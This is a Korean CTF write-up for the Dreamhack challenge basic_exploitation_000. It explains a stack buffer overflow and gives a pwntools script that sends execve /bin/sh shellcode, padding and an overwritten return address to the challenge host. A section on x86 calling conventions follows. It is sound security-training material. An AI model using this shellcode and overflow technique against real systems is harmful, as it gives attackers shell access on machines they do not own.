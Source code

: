 ```yaml
---
layout: post
title: "(Dreamhack) basic_exploitation_000"
date: 2021-02-24 05:24:00 -0400
categories: Security CTF
---
```


## 문제 풀이

buf가 지역 변수로 0x80만큼 할당이 되어 있고, 이를 통해 ret 주소와 132바이트만큼 차이난다는 것을 알 수 있다. (buf크기 128바이트 +sfp 4바이트)

![image](https://user-images.githubusercontent.com/24788751/108988447-d182f980-76d7-11eb-90e2-92608229fa4f.png)

![image](https://user-images.githubusercontent.com/24788751/108988382-bdd79300-76d7-11eb-9245-e8f38c8e64c2.png)
IDA를 이용하여 살펴본 스택 공간


``` python
from pwn import *

proc = remote("host1.dreamhack.games", 15867)

proc.recvuntil("buf = (")
bufAddr = int(proc.recv(10), 16)
shellcode = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
shellcode += "\x80" * 106
shellcode += str(p32(bufAddr))
proc.send(shellcode)

proc.interactive()
```

buf 공간에 26바이트의 쉘 코드와 아무 의미 없는 'A'를 106바이트만큼 채워주고 ret 주소에 buf 주소가 오버플로우될 수 있도록 하였다.

![image](https://user-images.githubusercontent.com/24788751/108981294-f1aeba80-76cf-11eb-8786-58c69bc1508a.png)

## 함수 호출 방식
함수를 호출하는 과정에서 매개변수, 리턴 주소 등을 어떻게 스택에 넣고 정리할 지 정하는 **함수 호출 규약**

![image](https://user-images.githubusercontent.com/24788751/108988472-d9429e00-76d7-11eb-9eaf-b73e7e5238fa.png)

sum(a, b)를 호출했다고 가정하자

### _cdecl
_cdecl은 c언어에서의 기본 함수 호출 규약이다. 스택을 사용하여 함수 외부에서 공간을 정리한다. (스택 정리는 caller가 함)
``` c
push b
push a
call sum()
add esp, 8
```

### _stdcall
_stdcall은 스택을 사용하여 함수 내부에서 공간을 정리한다. WINAPI에서 많이 사용한다. (스택 정리는 callee가 함)

``` c
push b
push a
call sum()
```
함수 리턴시 ret * 8 수행

### _fastcall
다른 호출 규약과 달리 레지스터를 이용한다. 레지스터를 이용하므로 속도가 빠르지만 경우에 따라 코드가 길어질 수 있다.
``` c
mov edx, b
mov ecx, a
call sum()
```

### _thiscall
c++에서 사용하는 호출규약으로 _stdcall과 비슷한 구조를 갖는다.
``` c
push b
push a
lea ecx, [ebx - 4]
call sum()
```
c++에서 자기 자신을 가리키는 this 포인터의 주소가 ecx 레지스터에 담기게 된다.